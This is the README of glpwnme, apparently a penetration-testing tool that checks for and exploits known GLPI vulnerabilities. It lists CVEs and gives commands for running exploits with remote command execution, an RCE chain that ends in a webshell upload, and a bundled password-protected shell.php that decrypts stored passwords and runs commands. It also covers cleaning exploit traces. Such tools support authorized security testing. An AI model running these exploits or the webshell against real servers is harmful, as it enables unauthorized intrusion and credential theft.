


# Glpwnme
glpwnme is a tool used to check for vulnerabilities on running instance of glpi

## :sunny: Contribution
If you found a vulnerability on **GLPI** which is not implemented on **glpwnme**, do not hesitate to add it !

You can copy the file ```exploits/implementations/template.py``` and import it in ```exploits/implementations/__init__.py```.

## :wrench: Install
To **install** glpwnme you can use the following:
```bash
pipx install .
poetry install
```

With **pip**:
```bash
pip3 install .
python3 -m glpwnme
```

## :whale: Docker
You can also run glpwnme using Docker, which eliminates the need to install dependencies locally.

### Basic Usage
```bash
# Build the images
docker compose build

# Run glpwnme with arguments (creates a new container each time)
docker compose run glpwnme -t https://target.glpi.com --check-all
```

### Persistent Container (Recommended)

For a better experience, use the persistent daemon container to avoid creating a new container for each command:

```bash
# Build and start the persistent container
docker compose up -d daemon

# Run commands in the existing container
docker exec glpwnme-daemon python -m glpwnme -t https://target.glpi.com --list-plugins
docker exec glpwnme-daemon python -m glpwnme -t https://target.glpi.com --check-all
docker exec glpwnme-daemon python -m glpwnme -t https://target.glpi.com -e PLUGIN_ORDER_2022 --infos
docker exec glpwnme-daemon python -m glpwnme -t https://target.glpi.com -e PLUGIN_ORDER_2022 --run -O "command=id" -u [username] -p [password]

# Run more intrusive checks
docker exec glpwnme-daemon python -m glpwnme -t https://target.glpi.com --check-all --no-opsec
```

### Web Interface

A simple web interface is available to interact with glpwnme through your browser:

```bash
# Start the web interface
docker compose up -d web

# Access the web interface
# http://localhost:5000
```

The web interface provides:
- Easy target configuration
- Simple exploit selection and execution
- Color-coded results display
- Log access

### Cleanup and Maintenance

```bash
# Remove orphaned containers
docker compose down --remove-orphans

# View logs for the web interface
docker logs -f glpwnme-web

# Stop all services
docker compose down
```

All generated files (like `log.glpwnme`) will be available on your local machine due to the volume mounting.

## :bomb: Vulnerabilities available

| Name                 | Score | Privileges | Vulnerable versions |
| --------             | ------- | ------- | ------- |
| CVE_2020_15175       | 7.4    | Unauthenticated | GLPI < 9.5.2 |
| CVE_2022_31061       | 7.4    | Unauthenticated | GLPI < 10.0.2 |
| CVE_2022_35914       | 10     | Unauthenticated | GLPI < 10.0.3 |
| PLUGIN_ORDER_2022    | 8.3     | Self-Service | GLPI Plugin Order < 2.10.1 |
| CVE_2023_41323       | 3      | Unauthenticated | GLPI < 10.0.10 |
| CVE_2023_41326       | 8.1    | Self-Service | GLPI < 10.0.10 |
| CVE_2024_27937       | 6.4    | Self-Service | GLPI < 10.0.13 |
| CVE_2024_29889       | 8.1    | Self-Service | GLPI < 10.0.15 |
| CVE_2024_37148       | 8.1    | Self-Service | GLPI < 10.0.16 |
| CVE_2024_37149       | 5.6    | Super-Admin | GLPI < 10.0.16 |
| CVE_2024_40638       | 8.1    | Self-Service | GLPI < 10.0.17 |
| Leakymetry           | 9.3    | Unauthenticated | GLPI < 10.0.17 |

Also, this tool checks for **default credentials** and is able to **upload php file** from a privileged user.

## 🧹 Clean
Exploits might have some consequences. You probably want to clean what the
exploit did. For this, do not forget to check the **log file** created by glpwnme.
```bash
cat log.glpwnme
```

Exploits may implement a ```clean``` method that allow you to clean the previous traces let by the exploit.
As for the run method you can add an argument.

```bash
# Clean the exploit traces
python3 glpwnme.py -t <target> -e <exploit_to_use> -O "option1=value1" "option2=value2" --clean
```

## :page_facing_up: List plugins
```bash
python3 glpwnme -t <target> --list-plugins
```

> __*Note*__ : Listing plugins might find additional vulnerabilities that the _'--check-all'_ would
> have not detected

## :pencil2: Usage example

```bash
python3 glpwnme.py -t https://test.glpi.com # List all of the available exploits
python3 glpwnme.py -t https://test.glpi.com --check-all # Run all the exploit (if version compatible) on the target that are opsec safe
python3 glpwnme.py -t https://test.glpi.com --check-all --no-opsec # Check all the exploits on the target
```

```bash
# Get the help for the exploit
python3 glpwnme.py -t https://test.glpi.com -e <exploit_to_use> --infos

# Run the exploit_to_use with the options for the run method
python3 glpwnme.py -t https://test.glpi.com -e <exploit_to_use> --run -O "option1=value1" "option2=value2"

# Do not forget to check your log for restoring the .htaccess and keep the api_key
cat log.glpwnme
```

## Example
### RCE on glpi < 9.5.2
```bash
python3 glpwnme -t <target> -e CVE_2020_15175 --run # delete .htaccess and recover an admin session
python3 glpwnme -t <target> -e PHP_UPLOAD -O file=webshell.php --run --cookie <cookie> --profile SuperAdmin # Login as admin with a cookie recovered before and upload a webshell.php on glpi

# Do not forget to check your log for restoring the .htaccess and keep the api_key
cat log.glpwnme
```

## Screenshots





## Args details
```bash
# Login with creds
# Auth parameter is used to login with something else than the default (Glpi Internal database --> local-1, domaine.example.com --> ldap-1)
# recover it in the html DOM of the login page.
# Profile is used, if your user has different profiles (Technician and Read-only for instance, and you want to use the other)
python3 glpwnme.py -t <target> -u <username> -p <password> --auth <local-1|ldap-1|...> --profile <Super-Admin|Technician|...>

# Login with a cookie value
python3 glpwnme.py -t <target> --cookie <cookie>

# Login with an api token and recover the cookie
# The cookie is bound to the host:
#   - cookie for http://127.0.0.1 will not be valid for http://localhost
python3 glpwnme.py -t <target> --token <api_token> --dump-cookies # Will login with the api token and give you the cookie value

# Add custom header and go through burp
python3 glpwnme.py -t <target> -H "X-Forwarded-For: 127.0.0.1" "User-Agent: OrangeCyberdefense/1.1" --proxy http://127.0.0.1:8080

# Use an exploit for check
python3 glpwnme.py -t <target> -e <exploit_name> --check

# Use an exploit for run or clean, with parameter
python3 glpwnme.py -t <target> -e <exploit_name> <--run|--clean> -O 'key=value' 'key2=value'

# Get information about an exploit
python3 glpwnme.py -t <target> -e <exploit_name> --infos
```

## Webshell
On **GLPI** the passwords are encrypted with a random secret key. The way the key is handle has changed over the versions of GLPI.
Moreover the encrypted passwords are stored in the database. A provided file **_shell.php_** is here to help you get those
damn passwords easily. Just access it using the password *'?passwd=P@ssw0rd123'* and you will see the password in use. Add
the option *'?passwd=P@ssw0rd123&_hidden_cmd=whoami'*, and you will execute the ```whoami``` command on the server. This might give you enough flexibility to recover *important credentials* fastly, and achieve **rev shell** if needed.

## Improvements
GLPI Version is shown for logged in user, it would be great to add an observer / hook, that detect if we are logged in and if the version has been found. In this case, retrieve the version from the DOM.

Change the way plugins are enumerated, in order to prevent false positive when webroot is not accessible.

## Contributions
Thanks to the following person for their help:
* Aurelien In the Shallow
* Sebastien Le Corre

## FAQ
### I cannot connect with glpwnme ?
* Make sure the url specified does not contains too many info in the url:
  * https://glpi.client.com/glpi/front/helpdesk.php &rarr; will fail as '/front' is in the url
  * https://glpi.client.com/glpi/ &rarr; works
* Maybe the **--auth** is needed, check the source code of the login **html page** and recover it here
* If **SSO** or other mechanisms are setup to access the GLPI, then you will need to give **glpwnme** the cookie used. **In this case** you also need to use the **--no-init** option in order to prevent glpwnme to logout at the scan phase.

### The cookie given by the tool does not work ?
* **Cookies** in GLPI depends on the **hostname**, cookie changes between same instance but different Host:
  * http://127.0.0.1/index.php &rarr; Cookie _is valid_
  * http://localhost/index.php &rarr; Cookie _fails_
